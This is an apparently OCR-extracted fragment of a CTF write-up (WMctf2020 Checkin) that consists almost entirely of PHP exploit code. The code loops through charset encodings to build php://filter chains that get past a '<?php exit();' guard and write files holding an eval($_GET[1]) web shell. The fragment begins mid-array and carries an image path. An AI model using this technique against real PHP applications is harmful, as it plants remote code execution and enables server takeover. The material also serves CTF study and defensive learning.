```php
    'ISO-8859-3',
    'ISO-8859-4',
    'ISO-8859-5',
    'ISO-8859-6',
    'ISO-8859-7',
    'ISO-8859-8',
    'ISO-8859-9',
    'ISO-8859-10',
    'ISO-8859-13',
    'ISO-8859-14',
    'ISO-8859-15',
    'ISO-8859-16',
    'byte2be',
    'byte2le',
    'byte4be',
    'byte4le',
    'BASE64',
    'HTML-ENTITIES',
    '7bit',
    '8bit',
    'EUC-CN',
    'CP936',
    'GB18030',
    'HZ',
    'EUC-TW',
    'CP950',
    'BIG-5',
    'EUC-KR',
    'UHC',
    'ISO-2022-KR',
    'Windows-1251',
    'Windows-1252',
    'CP866',
    'KOI8-R',
    'KOI8-U',
    'ArmSCII-8',
];
@mkdir('./test');
@chdir('./test');

foreach ($a as $item) {
    $content = 'php://filter/zlib.deflate|' . $item . '|zlib.inflate|?><?php%0deval($_GET[1]);?>/resource=Cyc1e'.$item.'.php';
    file_put_contents($content, '<?php exit();' . $content);
}

```



## 例题：WMctf2020 Checkin
